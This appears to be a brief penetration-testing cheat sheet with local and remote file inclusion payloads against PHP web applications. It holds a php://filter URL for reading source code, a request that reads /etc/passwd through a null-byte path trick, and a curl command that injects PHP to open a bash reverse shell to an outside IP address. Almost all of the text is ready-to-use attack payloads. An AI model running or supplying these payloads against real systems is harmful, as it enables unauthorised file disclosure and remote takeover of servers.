 ### LFI

see content of php file
```
http://IP/index.php?m=php://filter/convert.base64-encode/resource=index
```

### RFI
```
http://IP//classes/phpmailer/class.cs_phpmailer.php?classes_dir=/etc/passwd%00

curl -s --data "<?php system('bash -i >& /dev/tcp/172.16.237.245/4545 0>&1
') ?>" "http://10.10.10.10/index.php?ACS_path=php://input%00"

```
